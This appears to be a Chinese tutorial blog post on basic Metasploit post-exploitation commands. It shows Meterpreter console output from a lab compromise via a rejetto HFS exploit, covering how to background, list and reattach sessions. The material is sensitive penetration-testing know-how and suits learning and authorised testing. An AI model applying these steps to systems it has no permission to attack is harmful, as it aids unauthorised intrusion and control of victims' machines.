 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit基本后渗透命令
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit基本后渗透命令
lock: need
---
```


# Metasploit基本后渗透命令

核心Meterpreter命令指的是已经被Meterpreter攻击载荷成功渗透的计算机向我们提供的用于后渗透操作的基本功能。

**注意：Metasploit的后渗透命令都是在拿到了目标主机的Meterpreter权限之后，在Meterpreter命令行下执行的各种命令操作。**

### 帮助菜单

输入help或者英文?就可以打开帮主菜单，如下所示：

![img](https://img-blog.csdnimg.cn/20190127151346199.png)

这里，输出的结果比较多，我只是截取了一部分信息。

### 后渗透命令

在进行渗透的时候，有时需要执行其他的任务。为了执行新的任务，需要将当前执行的Meterpreter会话切换到后台，这时就需要用到background命令。

如下：

```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/http/rejetto_hfs_exec) > 

此时，就需要将一个会话切换到前台的时候，就可以使用sessions命令加上该会话的标识符，命令格式为sessions -i
msf5 exploit(windows/http/rejetto_hfs_exec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x86/windows  LIUYAZHUANG\lyz @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1043 (192.168.175.130)

msf5 exploit(windows/http/rejetto_hfs_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
